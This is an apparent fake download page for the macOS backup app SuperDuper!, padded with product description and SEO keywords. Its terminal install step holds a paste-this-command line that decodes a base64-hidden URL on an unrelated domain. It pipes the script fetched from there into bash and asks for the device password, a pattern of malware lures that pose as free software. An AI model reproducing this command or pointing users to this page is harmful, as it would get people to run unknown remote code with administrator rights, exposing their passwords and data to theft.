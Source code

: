 # SuperDuper! for Mac Download

![SuperDuper Icon](https://images.dwncdn.net/images/t_app-icon-l/p/88551bbc-9a68-11e6-b44f-00163ed833e7/804012014/2242_4-46651-logo)

---

# ⬇️ Download SuperDuper! for Mac

[![⬇️ Download Now](https://img.shields.io/badge/SuperDuper!-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/superduper)

# 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 💡 What is SuperDuper for Mac?

**SuperDuper! for Mac** is a comprehensive—orchestrated—backup and disk cloning utility created by **Shirt Pocket**, tailored specifically for macOS users. Its primary focus is on performing reliable, bootable backups and full-disk clones, while maintaining an interface that’s accessible even to non-experts. Whether you're migrating to a new drive, protecting your data, or just ensuring system safety, SuperDuper! offers precision and peace of mind.

At its core, SuperDuper! enables users to create **exact, bootable clones of macOS installations**, including everything from system files and applications to user data and hidden system caches. These backups can be instantly bootable in case of hardware failure—meaning you can swap drives and boot your Mac immediately as if nothing happened.

While the interface is clean and simple, the engine behind it is sophisticated:

- 🔄 It supports **incremental updates**, copying only changed or new files during subsequent backups—saving time and storage space.
- 🔐 Optionally, you can perform **fully encrypted backups** with native macOS FileVault support or Apple encryption.
- 🧹 It supports **smart updates** — minimizing write cycles on SSDs and preserving drive life.
- ⬇️ It can create a **bootable recovery drive** with a snapshot of your existing system, which is ideal for emergencies or offline restores—even on replacement hardware.

SuperDuper! also works seamlessly with macOS Ventura, Monterey, Big Sur, and supports both **Intel and Apple Silicon (M1, M2, M3)** Macs. The application offers scripting and automation capabilities, allowing advanced users to schedule backup routines or customize disk operations.

Behind the simplicity of the UI is a high-performance engine that manages signals, metadata, permissions, and performance. It understands APFS snapshots, repair routines, permissions preservation and Finder metadata—all automated so you don’t have to worry.

To sum up, SuperDuper! for Mac delivers a powerful combination of:

- **Bootable cloning and full-system backups**, ideal for migrations and disaster recovery.
- **Incremental and smart update support** to streamline storage use and speed.
- **Encryption and APFS volume awareness** for safekeeping and compatibility.
- **Scripting and scheduling options** for technicians, IT managers, or power users.

This combination makes SuperDuper! a reliable and professional-grade tool used across educational, creative, publishing, and enterprise environments—where data safety is non-negotiable.

---

## ✨ Key Features

- 🏃 **Bootable clone** of entire macOS system  
- 🔄 **Smart Update/incremental backup** to save time and disk space  
- 🔐 **Encrypted and APFS‐aware backup support**  
- 🧹 SSD‐friendly copy engine to extend drive life  
- 🗓 Scheduled backups and scripting for automation  
- 🧰 Disaster recovery tool for system restores and migrations  
- 💻 Optimized for **Apple Silicon & Intel Macs**

---

![SuperDuper Main Window](https://www.shirt-pocket.com/SuperDuper/graphics/SuperDuper-Main.png)

---

## 💻 System Requirements

- **macOS:** 10.13 High Sierra or later (Ventura / Sonoma supported)  
- **Processor:** Intel or Apple Silicon (M1/M2/M3)  
- **Free disk space:** ~200 MB for installation; additional depending on backup source size  
- **Permissions:** Full‑disk access required for cloning system volumes

---

## 🔑 SEO Keywords

superduper mac, superduper mac download, super duper backup, superduper clone, super duper mac os, superduper mac free, superduper mac free download, superduper backup mac, super duper clone software, download superduper for mac free, macos superduper, super duper app mac, super duper backup app, super duper backup software, super duper backup software for mac, super duper clone mac, super duper clone mac hard drive, super duper cloning software for mac, super duper disk clone, super duper drive clone, super duper hard drive, super duper hard drive clone, super duper mac software, super duper software for mac, superduper app for mac, superduper bootable backup, superduper clone to ssd, superduper coupon code mac, superduper dmg, superduper download free mac, superduper encrypted backup, superduper mac review, superduper osx
